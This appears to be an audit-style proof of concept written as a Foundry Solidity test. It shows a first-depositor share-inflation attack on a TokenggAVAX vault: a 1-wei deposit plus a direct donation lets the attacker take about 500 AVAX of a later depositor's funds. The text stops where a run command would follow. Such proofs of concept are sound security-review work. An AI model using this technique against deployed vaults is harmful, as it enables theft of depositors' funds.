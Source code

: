     	function testShareInflation() public {
    		uint256 depositAmount = 1;
    		uint256 aliceDeposit = 2000 ether;
    		uint256 donationAmount = 1000 ether;
    		vm.deal(bob, donationAmount  + depositAmount);
    		vm.deal(alice, aliceDeposit);
    		vm.warp(1672876799);
    
    		// create new ggAVAX
    		ggAVAXImpl = new TokenggAVAX();
    		ggAVAX = TokenggAVAX(deployProxy(address(ggAVAXImpl), address(guardian)));
    		ggAVAX.initialize(store, ERC20(address(wavax)));
    
    		// Bob deposits 1 WEI of AVAX
    		vm.prank(bob);
    		ggAVAX.depositAVAX{value: depositAmount}();
    		// Bob transfers 1000 AVAX to vault
    		vm.startPrank(bob);
    		wavax.deposit{value: donationAmount}();
    		wavax.transfer(address(ggAVAX), donationAmount);
    		vm.stopPrank();
    		// Bob Syncs rewards
    		ggAVAX.syncRewards();
    
    		// 1 second has passed
    		// This can range between 0-14 days. Every seconds, exchange rate rises
    		skip(1 seconds);
    
    		// Alice deposits 2000 AVAX
    		vm.prank(alice);
    		ggAVAX.depositAVAX{value: aliceDeposit}();
    
    		//Expectet revert when any depositor deposits less then 1000 AVAX
    		vm.expectRevert(bytes4(keccak256("ZeroShares()")));
    		ggAVAX.depositAVAX{value: 10 ether}();
    
    		// Bob withdraws maximum assests for his share
    		uint256 maxWithdrawAssets = ggAVAX.maxWithdraw(bob);
    		vm.prank(bob);
    		ggAVAX.withdrawAVAX(maxWithdrawAssets);
    
    		//Validate bob has withdrawn 1500 AVAX 
    		assertEq(bob.balance, 1500 ether);
    
    		// Alice withdraws maximum assests for her share
    		maxWithdrawAssets = ggAVAX.maxWithdraw(alice);
    		ggAVAX.syncRewards(); // to update accounting
    		vm.prank(alice);
    		ggAVAX.withdrawAVAX(maxWithdrawAssets);
    
    		// Validate that Alice withdraw 1500 AVAX + 1 (~500 AVAX loss)
    		assertEq(alice.balance, 1500 ether + 1);
    	}

To run the POC, execute:
